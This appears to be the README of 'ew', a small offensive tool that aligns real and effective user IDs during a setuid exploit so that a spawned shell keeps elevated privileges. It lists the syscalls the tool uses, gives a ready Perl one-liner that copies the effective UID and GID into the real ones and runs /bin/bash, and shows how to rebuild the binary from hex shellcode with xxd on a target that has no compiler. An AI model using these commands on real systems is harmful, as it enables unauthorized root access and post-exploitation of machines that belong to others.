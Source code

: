 # ew #

_ew_ is a simple wrapper program for circumventing ruid / euid mistmatches during a suid exploit. It's so simple, the code is really self documenting. 

	geteuid();
	setreuid();
	setregid();
	execve();

Another quick method if perl is available would be:
	perl -U -e '$<=$(=$>;system("/bin/bash");'

Enjoy!

## ew shellcode ##

The files with shellcode are the same ew, but were built with '-Os' and then stripped, before being run through xxd -p. This is useful when the target host has xxd but no compiler.

	cat ew-x64-shellcode.hex | xxd -p -r > ew
